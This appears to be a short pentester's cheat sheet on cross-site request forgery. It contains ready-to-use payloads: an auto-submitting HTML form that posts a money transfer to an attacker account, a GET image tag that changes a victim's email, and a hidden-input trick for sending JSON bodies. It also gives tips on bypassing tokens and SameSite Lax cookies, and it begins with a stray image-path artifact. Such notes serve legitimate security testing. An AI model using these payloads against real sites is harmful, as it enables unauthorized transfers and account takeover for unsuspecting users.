   ![csrf-json](images/csrf-json.png)
  send conent as `<input type="hidden"
     name='{"first_name":"sfdfds","last_name":"fuck it","phone_no":949721,"delivery_details":{"address_1":"vishal","address_2":"kumar","landmark":"basti","city":"basti","pincode":"272009","state":"Uttar Pradesh","address_type":"residential"},"billing_details":{"state":"Uttar Pradesh","pincode":"272009"},"promotional_emails":"always","email":"kensington111.imrane@megasend.org","padding":"'value='something"}' />
     `
Payload of csrf in POST
```
<html>
	<body>
		<form id="csrfForm" action="https://victim-site.com/transfer" method="POST">
			<input type="hidden" name="amount" value="1000">
			<input type="hidden" name="to_account" value="attacker123">
			<input type="submit" value="Submit CSRF Request">
		</form>
		<script>
			// Auto-submit the form to trigger CSRF attack
			document.getElementById("csrfForm").submit();
		</script>
	</body>
</html>

```
Payload in GET
```
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

#### Remove csrf params and see if works or change post to get request
#### Is csrf manage in global or user scope
#### CSRF token is tied to a non-session cookie: 
If any action allows attacker to  setting a cookie in victims browser then attack is possible.
#### If csrf token is not present, and cookie is set to `Lax` 
- Get request sends the lax cookies
  - Check if `_method` is used in GET request argument so that the POST request can be converted to GET request
- Link is top level navigation
